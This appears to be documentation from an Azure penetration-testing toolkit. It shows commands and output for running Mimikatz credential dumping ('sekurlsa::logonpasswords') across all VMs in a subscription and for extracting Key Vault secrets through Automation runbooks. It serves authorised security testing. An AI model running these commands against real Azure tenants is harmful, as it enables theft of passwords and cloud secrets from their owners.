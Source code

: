     PS C:\MicroBurst>Invoke-AzureRmVMBulkCMD -Verbose -Script .\Mimikatz.ps1
    
    Executing C:\MicroBurst\Mimikatz.ps1 against all (1) VMs in the Testing-Resources Subscription
    Are you Sure You Want To Proceed: (Y/n): 
    VERBOSE: Running .\Mimikatz.ps1 on the Remote-West - (10.2.0.5 : 40.112.160.13) virtual machine (1 of 1)
    VERBOSE: Script Status: Succeeded
    Script Output: 
      .#####.   mimikatz 2.0 alpha (x64) release "Kiwi en C" (Feb 16 2015 22:15:28)
     .## ^ ##.  
     ## / \ ##  /* * *
     ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
      '#####'                                     with 15 modules * * */
    
    
    mimikatz(powershell) # sekurlsa::logonpasswords
    [Truncated]
    mimikatz(powershell) # exit
    Bye!
    
    VERBOSE: Script Execution Completed on Remote-West - (10.2.0.5 : 40.112.160.13)
    VERBOSE: Script Execution Completed in 37 seconds

RELATED LINKS: https://blog.netspi.com/running-powershell-scripts-on-azure-vms

# Get-AzureKeyVaults-Automation.ps1
PS C:\> Import-Module .\Get-AzureKeyVaults-Automation.ps1

PS C:\> Get-Help Get-AzureKeyVaults-Automation

NAME: Get-AzureKeyVaults-Automation

SYNOPSIS: Dumps all available Key Vault Keys/Secrets from an Azure subscription via Automation Accounts. Pipe to Out-Gridview, ft -AutoSize, or Export-CSV for easier parsing.

SYNTAX: Get-AzureKeyVaults-Automation [[-Subscription] <String>] [[-CertificatePassword] <String>] [[-ExportCerts] <String>] [<CommonParameters>]

DESCRIPTION: This function will look for any Key Vault Keys/Secrets that are available to an Automation RunAs Account, or as a configured Automation credential. 
    If either account has Key Vault permissions, the runbook will read the values directly out of the Key Vaults.
    A runbook will be spun up, so it will create a log entry in the automation jobs.
    Per the statements above, and the fact that you may try to access keys that you may not have permissions for... This should not be considered as Opsec Safe.

    -------------------------- EXAMPLE 1 --------------------------
    PS C:\MicroBurst>Get-AzureKeyVaults-Automation -Verbose
    
    VERBOSE: Logged In as kfosaaen@notasubscription.onmicrosoft.com
    VERBOSE: Getting List of Azure Automation Accounts...
    VERBOSE: 	Automation Credential (testcred) found for kfosaaen Automation Account
    VERBOSE: 	Automation Credential (testCred2) found for kfosaaen Automation Account
    VERBOSE: 	Getting getting available Key Vault Keys/Secrets using the kfosaaen Automation Account, testcred Credential, and the FCIGmKqaTkEUViN.ps1 Runbook
    VERBOSE: 		Waiting for the automation job to complete
    VERBOSE: 		Removing FCIGmKqaTkEUViN runbook from kfosaaen Automation Account
    VERBOSE: 	Getting getting available Key Vault Keys/Secrets using the kfosaaen Automation Account, testCred2 Credential, and the HzROkCvceonUNdh.ps1 Runbook
    VERBOSE: 		Waiting for the automation job to complete
    VERBOSE: 		Removing HzROkCvceonUNdh runbook from kfosaaen Automation Account
    VERBOSE: Automation Key Vault Dumping Activities Have Completed
